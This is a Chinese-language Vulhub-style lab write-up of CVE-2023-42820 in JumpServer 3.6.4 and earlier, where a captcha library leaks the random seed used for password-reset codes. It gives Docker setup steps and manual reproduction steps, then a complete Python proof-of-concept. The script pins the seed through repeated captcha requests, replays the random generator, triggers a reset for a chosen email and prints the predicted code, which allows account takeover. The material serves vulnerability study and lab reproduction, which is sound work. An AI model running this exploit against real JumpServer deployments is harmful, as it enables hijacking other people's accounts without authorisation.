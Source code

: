 # JumpServer随机数种子泄露导致账户劫持漏洞 CVE-2023-42820

## 漏洞描述

JumpServer是一个开源堡垒机系统。在其3.6.4及以下版本中，存在一处账户接管漏洞。攻击者通过第三方库[django-simple-captcha](https://github.com/mbi/django-simple-captcha)泄露的随机数种子推算出找回密码时的用户Token，最终修改用户密码。

参考链接：

- https://github.com/jumpserver/jumpserver/security/advisories/GHSA-7prv-g565-82qp
- https://mp.weixin.qq.com/s/VShjaDI1McerX843YyOENw
- https://www.leavesongs.com/PENETRATION/jumpserver-sep-2023-multiple-vulnerabilities-go-through.html 

## 环境搭建

Vulhub启动环境前，修改[config.env](config.env)中`DOMAINS`的值为你的IP和端口，如`DOMAINS=your-ip:8080`。

执行如下命令启动一个JumpServer 3.6.3 的服务器：

```
docker compose up -d
```

启动服务需要等待一段时间，之后访问`http://your-ip:8080`即可查看到JumpServer的登录页面。我们使用`admin`作为账号及密码即可登录，第一次登录管理员账号需要修改密码。

![image-20231021145246261](images/image-20231021145246261.png)

## 漏洞复现

使用Vulhub半自动化脚本复现漏洞。由于是半自动化，严格按照如下步骤方可正确复现。

首先，在浏览器第一个Tab中打开忘记密码页面：`http://your-ip:8080/core/auth/password/forget/previewing/`，此时页面上将有一个验证码。

- 如果验证码中包含数字10，则请刷新验证码，因为我们的脚本暂时无法处理数字10
- 如果验证码中不包含数字10，则右键菜单中将该验证码在新Tab下打开

新Tab中验证码的URL类似于`http://your-ip:8080/core/auth/captcha/image/87b2723d404657c2294abfab908975ebb9da5468/`，其中包含该验证码的key（一串sha1 hash值），也就是后面伪随机数使用的种子，记录下这个值作为**seed**。

返回第一个Tab，**刷新页面**。刷新页面的目的是，不使用包含“种子”的验证码，因为这个种子将在后续步骤中使用到。

刷新页面后正确填写用户名和验证码后提交，跳转到验证码验证页面。此时这个页面的URL类似于`http://your-ip:8080/core/auth/password/forgot/?token=sceOx7yWuAH9wWcuzc0nMQmLBzEPNhkhuTfl`，其中包含一个随机的token值，记录下这个值作为**token**。

执行脚本：

```
python poc.py -t http://your-ip:8080 --email admin@whoami.com --seed [seed] --token [token]
```

这个脚本需要传入4个参数：

- `-t` 指定目标JumpServer服务器地址
- `--email` 指定待劫持用户的邮箱地址
- `--seed` 前面记下来的随机数种子（**seed**）
- `--token` 前面记下来的token值（**token**）

> ~~环境启动失败（mariadb redis版本问题，修改版本启动后服务自动退出）。原docker-compose.yml中版本为：mariadb:10.11.5、redis:6.2.13~~
>
> ~~待复现，以下为Vulhub截图。~~

脚本执行后，将输出预测的code值：

![1](images/1-16967498267261.png)

回到浏览器中，输入该code提交，即可来到修改新密码页面，修改密码即可。

![2](images/2.gif)

## 漏洞POC

```python
import requests
import logging
import sys
import random
import string
import argparse
from urllib.parse import urljoin

logging.basicConfig(stream=sys.stdout, level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')
string_punctuation = '!#$%&()*+,-.:;<=>?@[]^_~'


def random_string(length: int, lower=True, upper=True, digit=True, special_char=False):
    args_names = ['lower', 'upper', 'digit', 'special_char']
    args_values = [lower, upper, digit, special_char]
    args_string = [string.ascii_lowercase, string.ascii_uppercase, string.digits, string_punctuation]
    args_string_map = dict(zip(args_names, args_string))
    kwargs = dict(zip(args_names, args_values))
    kwargs_keys = list(kwargs.keys())
    kwargs_values = list(kwargs.values())
    args_true_count = len([i for i in kwargs_values if i])
    assert any(kwargs_values), f'Parameters {kwargs_keys} must have at least one `True`'
    assert length >= args_true_count, f'Expected length >= {args_true_count}, bug got {length}'

    can_startswith_special_char = args_true_count == 1 and special_char

    chars = ''.join([args_string_map[k] for k, v in kwargs.items() if v])

    while True:
        password = list(random.choice(chars) for i in range(length))
        for k, v in kwargs.items():
            if v and not (set(password) & set(args_string_map[k])):
                # 没有包含指定的字符, retry
                break
        else:
            if not can_startswith_special_char and password[0] in args_string_map['special_char']:
                # 首位不能为特殊字符, retry
                continue
            else:
                # 满足要求终止 while 循环
                break

    password = ''.join(password)
    return password


def nop_random(seed: str):
    random.seed(seed)
    for i in range(4):
        random.randrange(-35, 35)

    for p in range(int(180 * 38 * 0.1)):
        random.randint(0, 180)
        random.randint(0, 38)


def fix_seed(target: str, seed: str):
    def _request(i: int, u: str):
        logging.info('send %d request to %s', i, u)
        response = requests.get(u, timeout=5)
        assert response.status_code == 200
        assert response.headers['Content-Type'] == 'image/png'

    url = urljoin(target, '/core/auth/captcha/image/' + seed + '/')
    for idx in range(30):
        _request(idx, url)


def send_code(target: str, email: str, reset_token: str):
    url = urljoin(target, "/api/v1/authentication/password/reset-code/?token=" + reset_token)
    response = requests.post(url, json={
        'email': email,
        'sms': '',
        'form_type': 'email',
    }, allow_redirects=False)
    assert response.status_code == 200
    logging.info("send code headers: %r response: %r", response.headers, response.text)


def main(target: str, email: str, seed: str, token: str):
    fix_seed(target, seed)
    nop_random(seed)
    send_code(target, email, token)
    code = random_string(6, lower=False, upper=False)
    logging.info("your code is %s", code)


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Process some integers.')
    parser.add_argument('-t', '--target', type=str, required=True, help='target url')
    parser.add_argument('--email', type=str, required=True, help='account email')
    parser.add_argument('--seed', type=str, required=True, help='seed from captcha url')
    parser.add_argument('--token', type=str, required=True, help='account reset token')

    args = parser.parse_args()
    main(args.target, args.email, args.seed, args.token)
```

